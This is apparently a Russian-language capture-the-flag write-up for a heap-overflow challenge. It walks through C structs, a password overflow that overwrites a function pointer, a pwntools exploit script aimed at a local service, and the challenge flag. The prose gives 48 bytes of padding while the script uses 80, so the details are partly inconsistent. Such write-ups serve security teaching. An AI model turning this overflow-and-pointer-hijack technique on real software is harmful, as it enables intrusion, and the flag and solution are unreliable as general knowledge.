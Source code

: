 # Task: Ticket to the Top

###  Анализ уязвимости

Структуры данных. Программа использует две структуры:

```C
struct user {
    char username[32];
    char password[32];
};
```
Размер структуры: 64 байта (32 байта для username и 32 для password).

```C
typedef struct ticket {
    void (*display)(struct ticket*);
    char username[32];
    char content[24];
} 
```
Размер структуры: 64 байта (8 байт для указателя на функцию display, 32 байта для username и 24 байта для content).

Обе структуры занимают 64 байта, что удобно, так как выделенные блоки для этих структур располагаются рядом в памяти.

Функция login. Функция login проверяет, соответствует ли введённый пароль секретному значению из файла .passwd и строке "admin". Если они совпадают, пользователь получает доступ к функции admin.

```C
char login(struct user *u) {
    char secret[16] = "";
    FILE *fp = fopen(".passwd", "r");
    fread(secret, 1, 15, fp);
    fclose(fp);

    if (strcmp(u->password, secret) == 0 && strcmp(u->password, "admin") == 0) {
        return 1;
    }
    return 0;
}

```

Программа выделяет память для структур user и ticket, после чего выполняет цикл с меню, где пользователь может выбрать действия. Уязвимость заключается в том, что поле content структуры ticket и поля структуры user могут быть переполнены, что позволяет изменить данные соседнего блока в памяти.

### Эксплуатация уязвимости

Цель состоит в том, чтобы перезаписать указатель display структуры ticket, направив его на функцию win. Так как обе структуры находятся рядом в памяти, мы можем перезаписать display из структуры user.

### Подготовка эксплойта

Позиции структур:
* u (user) располагается по адресу 0x4052a0
* t (ticket) располагается по адресу 0x4052f0

Для того чтобы перезаписать указатель display, необходимо переполнить поле password в структуре user на 48 байт, а затем записать адрес функции admin. Адрес будет передан как часть строки пароля, состоящей из 48 символов B и адреса функции admin.

```python
from pwn import *


# Connect remotely via nc to localhost on port 12345
p = remote("localhost", 12345)

p.sendline()

target = p64(0x00000000004012e8)

def choice(c):
    p.sendline()
    p.recv(timeout=1)
    p.sendline(c)

def login(username, password):
    choice(b'5')
    p.recv(timeout=1)
    p.sendline(username)
    p.recv(timeout=1)
    p.sendline(password)

login(b"A", b"B"*80 + target)
choice(b'1')

p.interactive()
p.close()
```

Flag: `EclipseCTF{un1qu3_h3ap_0v3rfl0w_ch4ll3ng3_5z7y8}`